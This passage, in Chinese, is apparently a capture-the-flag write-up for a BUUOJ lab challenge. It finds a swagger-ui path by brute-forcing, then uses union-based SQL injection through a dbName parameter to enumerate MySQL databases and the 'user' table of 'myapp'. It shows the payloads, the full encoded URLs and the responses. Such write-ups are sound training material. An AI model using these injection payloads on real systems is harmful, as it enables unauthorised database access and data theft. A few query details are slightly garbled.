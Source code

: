 ```
```
从上面分析得知，网站采用的是mysql数据库，

mysql 常见默认数据库名字有：

```
information_schema
mysql
performance_schema
sy
```



## 0x00 swagger-ui

dirb 暴力破解得到一个路径

`http://d06cd6b2-9dd6-4a93-8ad9-13d91a89ca04.node3.buuoj.cn/swagger-ui.html`

## 0x01 myapp数据库

查询数据库里面所有数据库 `查询information_schema库中的schemata表的所有内容`

`select * from information_schema.schema;`

构造查询库sql语句 `GROUP_CONCAT函数返回一个字符串结果，该结果由分组中的值连接组合而成。`

`mysql#' union select group_concat(schema_name) from information_schema.schemata#`

`http://04d5d236-6051-4fbf-aaaf-e1beabeb7380.node3.buuoj.cn/common/test/sqlDict?dbName=mysql%23%27%20union%20select%20group_concat(schema_name)%20from%20information_schema.schemata%23`

得到：

`			"tableDescribe":"information_schema,myapp,mysql,performance_schema,sys",`

```
information_schema
myapp
mysql
performance_schema
sys
```

分析知，只有myapp不是默认数据库

## 0x02 查询myapp 数据库中所有表

`mysql#' union select group_concat(table_name) from information_schema.tables where table_schema="myapp"#`

`http://04d5d236-6051-4fbf-aaaf-e1beabeb7380.node3.buuoj.cn/common/test/sqlDict?dbName=mysql%23%27%20union%20select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema%3D%22myapp%22%23`

得到
```
"tableDescribe":"user",
"tableName":"user"
```
